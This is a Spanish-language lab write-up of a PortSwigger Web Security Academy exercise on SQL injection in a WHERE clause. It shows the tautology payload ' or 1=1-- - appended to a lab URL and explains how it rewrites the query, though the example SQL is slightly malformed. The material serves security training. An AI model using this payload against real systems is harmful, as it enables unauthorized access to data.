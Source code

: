 ```yaml
---
icon: syringe
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SQL Injection

## <mark style="color:purple;">SQL Injection</mark>

URL = https://portswigger.net/web-security/all-labs

### Lab: SQL Injection vulnerability in WHERE clause allowing retrieval of hidden data

Si le damos a una de las etiquetas del filtro vemos que en la URL hace una comparacion, por lo que si hacemos lo siguiente filtrariamos todo lo que hay en la base de datos que es el proposito...

```
URL = https://0aac001703bff4ba80fdd598003e00c1.web-security-academy.net/filter?category=Lifestyle' or 1=1-- -
```

Lo que hemos añadido es lo siguiente...

```mysql
' or 1=1-- -
```

Que quedaria visto desde la terminal de `mysql` de la siguiente manera...

```mysql
select * from products where 'lifestyle' and released = 1;
```

```mysql
select * from products where 'input' or 1=1-- -' and released = 1;
```

<figure><img src="../../.gitbook/assets/sql1.png" alt=""><figcaption></figcaption></figure>
